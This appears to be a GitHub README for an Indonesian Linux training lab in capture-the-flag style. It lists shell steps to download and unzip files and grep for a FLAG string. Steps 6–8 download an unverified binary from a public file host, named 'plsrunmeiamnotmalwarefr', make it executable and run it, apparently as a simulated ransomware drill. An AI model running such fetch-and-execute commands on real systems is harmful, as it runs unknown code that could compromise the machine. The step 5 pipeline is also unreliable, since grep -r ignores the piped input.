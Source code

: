 # Pelatihan-Linux-2025
Pelatihan Linux 2025

1. Mengunduh program wget, unzip, dan xxd, lalu membuat folder baru bernama “artists_who_can_sing” dan masuk ke dalam folder tersebut
```bash
sudo apt install wget unzip xxd && mkdir artist_who_can_sing && cd artist_who_can_sing
```
2. Mendownload file zip menggunakan wget
```bash
wget "https://drive.usercontent.google.com/u/0/uc?id=1lV1HVmPTY_BOAK6ToXymRu7V5eVfR0ut&export=download" -O tutorials.zip
```
3. Unzip ke dalam folder baru yang bernama “singing_tutorials”
```bash
mkdir singing_tutorials && unzip tutorials.zip -d singing_tutorials
```
4. Masuk ke dalam folder "singing_tutorials" dan menampilkan list file termasuk yang tersembunyi
```bash
cd singing_tutorials && ls -la
```
5. Mencari file "opera" oleh "NBAYoungboy", cari yang berisi FLAG{isi} kemudian tampilkan satu baris dengan link benar dan pipe hasilnya ke flag.txt pada direktori sebelumnya
```bash
find . -name "*_opera_*_NBAYoungboy*" | grep -rIh "FLAG{.*}" | head -n 1 > ../flag.txt
```
6. Mundur satu folder kemudian download sebuah file baru dengan ketentuan nama “plsrunmeiamnotmalwarefr”
```bash
cd ../ && wget https://files.catbox.moe/9l4qu8 -O plsrunmeiamnotmalwarefr
```
7. Dapatkan izin untuk execute kemudian jalankan program
```bash
chmod +x plsrunmeiamnotmalwarefr
```
8. Jalankan program tersebut
```bash
./plsrunmeiamnotmalwarefr ps aux
```
9. Buat file bernama ransom.moolah
```bash
touch ransom.moolah
```
10. Mematikan process
```bash
^C
```
```bash
(or) kill ___
```
```bash
rm (file)
```
```bash
clear
```
